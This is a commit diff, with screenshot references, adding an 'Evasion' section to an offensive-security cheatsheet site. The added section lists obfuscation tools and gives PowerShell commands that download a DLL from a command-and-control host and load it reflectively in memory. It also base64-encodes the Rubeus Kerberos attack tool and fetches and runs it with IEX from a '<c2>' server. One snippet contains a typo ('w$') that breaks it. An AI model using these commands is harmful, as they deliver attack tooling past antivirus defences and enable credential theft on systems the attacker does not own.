

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Evasion.md, in a window 1280 px wide and 1249 px high. Shown: the whole window at 87% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update Evasion.md

````diff
--- a/docs/Windows/Evasion.md
+++ b/docs/Windows/Evasion.md
@@ -2,3 +2,34 @@
 
 ## Tools
 * [OffensivePipeline](https://github.com/aetsu/OffensivePipeline)
+* [ConfuserEx](https://github.com/mkaring/ConfuserEx)
+* [PowerStrip](http://github.com/Yoda66/PowerStrip)
+
+---
+## Loading via System Reflection Assembly[^1]
+### Load DLL
+```
+$w = new-object system.net.webclient
+$p = w$.Downloaddata("https://c2.domain.com/dllfile")
+[system.reflection.assembly]::Load($p)
+$a = new-object namespace.class
+$a.method()
+```
+
+### Example: Rubeus[^2]
+* Convert Exe file to Base64 via powershell
+```powershell
+[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt
+```
+* Create a `ps1` file (i.e. *rubeus.ps1*) with the contents below but replace the `<BASE64dRubeus>` with the base64 output of the command above (`rubeus.txt`)
+    * This step will save a lot of time rather than executing the base64 output directly and pasting a lot of characters to your (remote) powershell terminal.
+```powershell
+$RubeusAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("<BASE64dRubeus>"))
+```
+* Download via your c2
+```powershell
+IEX(New-Object System.Net.WebClient).DownloadString("https://<c2>:443/rubeus.ps1")
+```
+
+[^1]: [Move Aside Script Kiddies–Malware Execution in the Age of Advanced Defenses | Joff Thyer ](https://www.youtube.com/watch?v=wTmQ5FaRmf4)
+[^2]: [Github - Ghostpack - Rubeus](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
````
